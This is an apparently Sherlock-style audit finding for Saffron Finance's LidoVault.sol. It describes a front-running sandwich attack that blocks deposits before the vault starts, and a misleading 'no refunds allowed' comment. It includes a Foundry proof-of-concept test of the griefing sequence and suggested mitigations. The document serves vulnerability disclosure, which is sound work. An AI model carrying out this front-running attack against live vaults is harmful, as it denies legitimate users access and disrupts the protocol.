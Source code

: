 ### M-1 Sandwich Attack Vulnerability and Comment-Code Discrepancy in LidoVault.sol:deposit Mechanism Leads to Protocol Malfunction and Poor User Experience

## Summary

An attacker can execute a sandwich attack to prevent legitimate users from depositing on both sides of the vault. This attack can cause protocol malfunction and lead to a poor user experience by manipulating the remaining capacity to be less than the minimum deposit amount, only allowing users to deposit the minimumDepositAmount to prevent reverts.
Additionally, there is a discrepancy between a code comment stating "no refunds allowed" and the actual implementation of the withdraw function, which does allow withdrawals (refunds) before the vault starts.
https://github.com/sherlock-audit/2024-08-saffron-finance/blob/38dd9c8436db341c331f1b14545770c1766fc0ee/lido-fiv/contracts/LidoVault.sol#L368

```solidity
// no refunds allowed
require(amount <= variableSideCapacity - variableBearerTokenTotalSupply, "OED");
```

## Root cause

The vulnerability stems from the check remainingCapacity >= minimumDepositAmount in the deposit function, which can be exploited by an attacker to force all user transactions above minimumDepositAmount to revert, leading to protocol malfunction and a poor user experience

## Internal pre conditions

The vault has not started (!isStarted() is true).

## External pre conditions

The attacker can monitor the mempool and front-run transactions.
The attacker has sufficient ETH to perform the attack.

## Impact

Legitimate users are unable to deposit to the variable side as intended.
The protocol malfunctions, not operating as designed.
Poor user experience due to failed transactions and inability to participate as expected.
Increased gas costs for users due to failed transactions.

## POC

The proof of concept is written for the variable side, as withdrawals in that part of the vault are instant and do not require a withdrawal request from Lido.

```solidity
 function testDdosSandwichAttack() public {
        // vault has been initialized with 100eth fixed part and 50 eth varaible part
        address attacker = makeAddr("attacker");
        address victim = makeAddr("victim");

        uint256 minimumDepositAmount = 0.01 ether; // Minimum deposit is 0.01 ETH

        // Victim attempts to deposit
        uint256 victimDeposit = 0.02 ether;
        vm.deal(victim, victimDeposit);

        // Front-run: Attacker deposits just enough to leave less than minimum deposit amount
        uint256 attackerDeposit = VARIABLE_CAPACITY - victimDeposit + 1 wei;
        vm.deal(attacker, attackerDeposit);
        vm.prank(attacker);
        lidoVault.deposit{value: attackerDeposit}(1); // Variable side

        // Victim's transaction should now revert
        vm.prank(victim);
        vm.expectRevert(bytes("OED")); // Remaining Capacity error
        lidoVault.deposit{value: victimDeposit}(1);

        // Attacker withdraws their variable part
        vm.prank(attacker);
        lidoVault.withdraw(1); // 1 for VARIABLE side

        // Assert that the attacker has successfully withdrawn
        assertEq(lidoVault.variableBearerToken(attacker), 0);
        assertEq(address(attacker).balance, attackerDeposit);

        // Assert that the vault has not started and victim couldn't deposit
        assertEq(lidoVault.isStarted(), false);
        assertEq(lidoVault.variableBearerToken(victim), 0);
    }
```

## Mitigation

Remove or update the "no refunds allowed" comment to accurately reflect the contract's behavior.
If refunds are not intended, modify the withdraw function to disallow withdrawals before the vault starts.
If refunds are intended, add a time lock to prevent user withdrawals with the behavior explained above.
